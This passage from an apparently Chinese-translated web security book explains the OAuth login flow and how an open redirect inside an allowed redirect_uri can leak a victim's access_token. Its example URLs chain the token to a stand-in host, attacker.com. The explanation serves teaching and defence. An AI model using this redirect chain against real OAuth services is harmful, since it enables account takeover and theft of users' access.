 图 20-2：在典型 OAuth 流程中看到的同意弹窗

在用户同意服务提供者请求的权限后，身份提供者将通过`redirect_uri`发送一个授权码：

```
https://example.com/callback?authorization_code=abc123&state=STATE
```

服务提供者可以通过使用授权码、以及他们的客户端 ID 和密钥，从身份提供者获取`access_token`。客户端 ID 和客户端密钥用于认证服务提供者身份：

```
identity.com/oauth/token?
client_id=`CLIENT_ID`
&client_secret=CLIENT_SECRET
&redirect_uri=https://example.com/callback
&code=abc123
```

身份提供者将返回`access_token`，该令牌可以用来访问用户的信息：

```
https://example.com/callback?#access_token=xyz123
```

例如，服务提供者可能会向身份提供者发起请求，获取访问用户电子邮件的访问令牌。然后，它可以使用从身份提供者获取的电子邮件作为证明用户身份的方式，登录到与该电子邮件地址注册的账户。

#### OAuth 漏洞

有时攻击者可以通过窃取关键的 OAuth 令牌绕过 OAuth 身份验证，方法是利用开放重定向漏洞。攻击者通过篡改`redirect_uri`参数，从受害者账户中窃取`access_token`。

`redirect_uri`决定了身份提供者将如何发送关键信息，如`access_token`。因此，大多数主要的身份提供者要求服务提供者指定一个允许列表的 URL 来用作`redirect_uri`。如果请求中提供的`redirect_uri`不在允许列表中，身份提供者将拒绝该请求。例如，如果只允许*example.com*的子域，以下请求将被拒绝：

```
client_id=`CLIENT_ID`
&response_type=code
&state=`STATE`
&redirect_uri=https://attacker.com
&scope=email
```

但如果某个允许的 `redirect_uri` URL 内存在开放重定向漏洞怎么办？通常，`access_token` 是通过 URL 片段传递的，该片段在所有跨域重定向中都能保持。如果攻击者能够使 OAuth 流程最终重定向到攻击者的域名，他们就可以从 URL 片段中窃取 `access_token`，并获取用户的账户访问权限。

重定向 OAuth 流程的一种方式是通过基于 URL 参数的开放重定向。例如，使用以下 URL 作为 `redirect_uri`

```
redirect_uri=https://example.com/callback?next=attacker.com
```

将首先导致流程重定向到回调 URL

```
https://example.com/callback?next=attacker.com#access_token=xyz123
```

然后重定向到攻击者的域名：

```
https://attacker.com#access_token=xyz123
```

